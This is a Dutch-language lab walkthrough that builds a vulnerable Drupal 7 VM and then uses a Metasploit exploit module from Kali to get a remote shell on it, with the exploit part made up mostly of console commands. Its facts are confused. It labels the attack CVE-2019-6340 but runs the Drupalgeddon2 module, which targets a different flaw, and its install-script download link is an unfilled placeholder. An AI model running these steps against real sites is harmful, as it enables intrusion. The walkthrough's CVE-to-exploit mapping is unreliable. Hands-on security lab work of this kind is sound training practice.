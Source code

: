 # CVE-2019-6340

## Drupal 7.x en 8.x - - RESTful Web Services unserialize() Remote Command Execution [Exploit](https://nvd.nist.gov/vuln/detail/CVE-2019-6340)

- we kunnen door een exploit die veroorzaakt is door een sanitization fout in de `Drupal 7/8 RESTful Web Services` module, een remote php code execution uitvoeren.

- We gaan [module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/drupal_drupalgeddon2.md) gebruiken van metasploit om de exploit uit te voeren.

- we moeten hiervoor eerst drupal installeren en de module `RESTful Web Services` installeren.

## VM Setup

- We gebruiken een debian 11 desktop vm vdi van osboxes (zodat we makkelijk kunnen copypasten).

- We gebruiken vboxmanage om de vm te maken en te starten, deze zal een simpele debian 11 gui vm aanmaken met 2gb ram en 2 cpu cores, deze vm zal ook 2 netwerk adapters hebben, 1 voor de host-only adapter en 1 voor de NAT adapter.

## drupal installeren

- we gaan eerst wget installeren zodat we de drupal installatie script kunnen downloaden.

```bash
sudo apt-get update
sudo apt-get install wget
```

- daarna gaan we mysql-server 5.7 repository opzetten (8 werkt niet met drupal 7).
Het zal vragen welke versie we willen installeren, we kiezen eerst voor debian buster (10) en dan voor mysql 5.7.

```bash
    wget https://dev.mysql.com/get/mysql-apt-config_0.8.18-1_all.deb &&
    sudo dpkg -i mysql-apt-config_0.8.18-1_all.deb 
```

- we kunnen eindelijk onze script downloaden en runnen.

```bash
    sudo wget drupalInstall.shLinK To be added &&
    sudo chmod +x drupalInstall.sh &&
    sudo ./drupalInstall.sh
```

- deze script zal drupal 7.54 installeren en de mysql database opzetten.
met root als gebruikersnaam en wachtwoord password voor de database.
er zal ook een drupal database aangemaakt worden met de naam drupal en password als wachtwoord.

- De nodige modules zullen ook gedownload worden(je moet wel nog de modules activeren in de drupal admin panel).


- als de script klaar is zou je normaal gezien drupal moeten kunnen bereiken op http://localhost/index.php of http://xxx.xxx.xxx.xxx/index.php (xxx.xxx.xxx.xxx is het ip van de vm) als u vanop een andere de kali vm wilt bereiken.

- we doen de basis configuratie van drupal en maken een admin account aan.

- voor we verder gaan voeren we nog een laatste commando uit om de drupal installatie te vervolledigen.

```bash
sudo rm -rvf /var/www/html/index.html
```

- dit is nodig of we zullen steeds redirected worden naar index.html.

- we zetten entity en restful web services aan in de modules pagina.

- vanop kali vm gaan we de exploit uitvoeren.

## Exploit

- we starten metasploit op en zoeken de exploit.

```bash
msfconsole
```

- we gaan een externe module  gebruiken die we gevonden hebben.

```bash
use exploit/unix/webapp/drupal_drupalgeddon2
```

- we gaan de exploit configureren.

```bash
set rhosts xxx.xxx.xxx.xxx (ip van de vm)
set verbose true
check
run
```

- als alles goed is gegaan zou je nu van op uw terminal een shell moeten hebben op de vm.

- testen of het werkt.

```bash
whoami
```

## notes

- voor de externe module te gebruiken moet je een connectie hebben met het internet
- uw kali vm moet een host-only adapter als dezelfde die de vm heeft.
- errors zullen verschijnen op up drupal pagina, dit komt door php versie 7.4 die niet compatibel is met drupal 7.